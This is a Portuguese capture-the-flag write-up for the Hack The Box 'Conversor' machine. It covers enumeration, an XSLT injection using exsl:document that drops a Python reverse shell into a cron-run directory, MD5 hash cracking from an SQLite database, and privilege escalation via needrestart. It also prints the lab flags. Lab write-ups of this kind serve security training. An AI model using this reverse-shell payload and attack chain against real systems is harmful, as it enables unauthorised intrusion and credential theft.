









# Hack The Box — Conversor


---

# Informações da Máquina

| Nome       | Dificuldade | Plataforma    | OS    |
| ---------- | ---------- | ------------ | ----- |
| Conversor  | Easy       | Hack The Box | Linux |

---

# Superfície de ataque

```
1. Enumeração de serviços (HTTP + SSH)
2. Descoberta de endpoints web (/about)
3. Análise do código fonte
4. Exploração de XSLT → escrita de arquivo (exsl:document)
5. Execução via cron job
6. Acesso como www-data
7. Extração de credenciais (SQLite + MD5)
8. SSH como usuário
9. Escalação via sudo (needrestart)
```

---

# Reconhecimento

A enumeração inicial foi realizada com Nmap.

```
nmap -sC -sV -A -T4 10.129.22.117
```



### Descobertas

| Porta | Serviço | Observações |
|------|--------|-------------|
| 22   | SSH    | OpenSSH 8.9p1 |
| 80   | HTTP   | Aplicação web Conversor |

---

# Enumeração Web

A aplicação web permite upload de arquivos XML e XSLT para conversão de scans do Nmap.



Para descobrir endpoints adicionais, foi utilizado Gobuster:

```
gobuster dir -u http://conversor.htb/ -w /usr/share/wordlists/dirb/common.txt
```



### Descobertas importantes:

- `/about` → página com opção de download do código fonte
- `/login`, `/register` → sistema de autenticação

O endpoint `/about` foi essencial, pois forneceu acesso ao código fonte da aplicação.

---

# Análise do Código Fonte

Após extrair o código, foi identificado o seguinte:

- Uso de `lxml` para processamento de XML/XSLT
- Upload de arquivos controlado pelo usuário
- Existência de diretório:

```
/var/www/conversor.htb/scripts/
```

No arquivo `install.md`, foi encontrado:

```
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
```

Ou seja:

Qualquer script `.py` nesse diretório é executado automaticamente.

---

# Exploração

A exploração foi baseada em **XSLT Injection com exsl:document**.

Essa funcionalidade permite escrever arquivos no servidor durante a transformação.

Payload utilizado:

```xml
<xsl:stylesheet version="1.0"
 xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
 xmlns:exsl="http://exslt.org/common"
 extension-element-prefixes="exsl">

<xsl:template match="/">
  <exsl:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.X",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
  </exsl:document>
</xsl:template>

</xsl:stylesheet>
```

---

# Acesso Inicial

Após o upload do payload:

1. O arquivo foi escrito em `/scripts`
2. O cron job executou automaticamente
3. Reverse shell foi recebida

```
nc -lvnp 1234
```



---

# Flag de Usuário

Foi identificado um banco SQLite:

```
/var/www/conversor.htb/instance/users.db
```

Consulta realizada:

```
sqlite3 users.db
SELECT * FROM users;
```



O hash MD5 foi quebrado utilizando:

```
john --format=raw-md5 hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Senha recuperada → acesso via SSH:

```
ssh fismathack@10.129.22.117
```



```
00f53b8888ecdc8814a01c18dd67f289
```

---

# Escalação de Privilégio

Enumeração com:

```
sudo -l
```



Resultado:

```
(ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```

---

# Explorando a Escalação de Privilégio

O binário `needrestart` pode ser abusado para execução como root.

Após exploração, foi possível obter shell como root.



---

# Flag Root



```
36003125b473a0efc65cd596ac974152
```

---

# Vulnerabilidades Identificadas

### XSLT Injection → Arbitrary File Write → RCE

Descrição:
* Uso inseguro de XSLT com suporte a EXSLT
* Permite escrita de arquivos arbitrários
* Combinado com cron job → execução automática
* Resultado: Remote Code Execution

---

# Ferramentas Utilizadas

* Nmap
* Gobuster
* John
* Netcat
* SSH

---

# Principais Aprendizados

* XSLT pode ser extremamente perigoso
* EXSLT (`exsl:document`) pode levar a RCE
* Cron jobs são vetores críticos
* Revisão de código fonte é essencial em CTFs

---

# Autor

https://github.com/ninjaa-exe
